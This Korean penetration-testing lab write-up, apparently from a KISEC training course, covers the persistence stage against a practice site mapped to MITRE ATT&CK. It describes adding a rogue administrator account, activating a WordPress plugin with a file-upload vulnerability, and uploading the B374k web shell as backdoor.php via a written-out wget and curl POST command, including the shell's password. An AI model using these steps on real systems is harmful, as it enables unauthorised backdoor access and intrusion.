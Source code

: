 ```yaml
---
layout: post
title: fngs.kr | 4. 지속
subtitle: fngs.kr 4. 지속 단계
categories: Pentest
tags: [Pentest, TTPs]
---
```


**본 내용 및 실습 환경은 KISEC, 케이쉴드 주니어 교육 과정에 있음을 알려드립니다.**

## 이전 내용

관리자 계정에 대한 패스워드를 크랙하는데 성공했다. 하지만 해당 계정의 패스워드가 다시 변경 되어 재접근이 힘들 수가 있다. 따라서 지속적으로 접근하기 위한 방법이 필요하다.

## Persistence

지속성은 공격자는 다시 시작, 자격 증명 변경 및 액세스가 차단될 수 있다.

예를 들어, 담담자에 의해 관리자 권한으로 들어온 것이 들통나게 되어 관리자 패스워드 변경 및 접속 차단이 될 수가 있다.

이러한 기타 중단을 대비해 시스템에 대한 액세스를 지속하기 위해 사용하는 기술로 구성됩니다.

### Create Account

해당 관리자 계정의 패스워드가 변경되면 해당 계정으로는 접근이 불가할 것이다. 그렇기에 관리자 권한을 가진 계정을 새롭게 만들 수 있다.

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/183037849-82dd9b1c-e2a6-40e4-97d0-5160fbbce36a.png" width = 390>
</p>

실제로는 운용중인 계정이 수도 없이 많을 것이다. 이렇게 계정을 직접 만들면 매번 확인하는게 아니라면 탐지에 어려울 수 있다.

### Server Software Component : Web Shell

자격 증명을 얻고 나서 지속적으로 액세스 하기 위해 **파일 업로드 취약점**이 존재하는 플러그인을 강제로 활성화시켜 웹 쉘을 올릴 것이다.

웹 쉘은 공격자가 웹 서버를 네트워크의 게이트웨이로 사용할 수 있도록 공개적으로 액세스할 수 있는 웹 서버에 배치되는 웹 스크립트입니다.

만약, 공격자가 웹쉘을 통해 CMD 명령을 통해 정보 탈취 및 악의적인 행위를 수행한다면 해당 전술(웹 쉘)에 맵핑이 될 수 없다.

지속적이 아닌 탈취 및 다른 행동이 주 목적이였다면 **Excution > Command and Scripting Interpreter: Windows Command Shell** 전략 및 전술에 포함 될 것이다.

또한, **Persistence > Browser Extensions**가 아닌 이유로는 브라우저 확장을 살펴보면 플러그인에 대한 내용은 악성 브라우저, 플러그인 확정 설치로 설명되어있다. 

그렇다는 것을 우리는 일반적으로 사용하는 플러그인이므로, 악의적으로 만들어진 플러그인이 아니므로 해당 항목에 맵핑 될 수 없다.

다시 돌아와서 플러그인 활성화부터 진행하겠습니다.

[Plug in](https://www.exploit-db.com/exploits/36979)을 설치하여 압축 해제 없이 아래처럼 올리고 활성화 된다.

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/183234953-2b8ba3a2-051d-4b03-9ad2-ec197f1a4ae5.png" width = 420>
</p>

이렇게 웹 쉘을 올릴 수 있는 환경이 만들어졌고, **B374k** 웹 쉘을 올릴 것이다. (해당 웹 쉘을 Git에도 있으므로, 서칭해보시길 바랍니다.)

```bash
wget [webshell.url]
cp b374k-3.2.3.php ~/backdoor.php
curl -k -X POST -F "action=upload" -F "Filedata=@./backdoor.php" -F "action=nm_webcontact_upload_file" https://dev.fngs.kr/wp-admin/admin-ajax.php
```

이후, http://......../[upload_backdoor_name] 을 통해 접근하면 아래처럼 된다.(웹 쉘 접속 비밀번호 : b374k)

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/183235432-954d0584-8972-43ec-a4e4-c3823ec30590.png" width = 420>
</p>

웹 쉘이 정상 작동하는 것을 확인 할 수 있다. 이번에는 2차 침투를 위해 리버스 쉘을 실행할 것이다.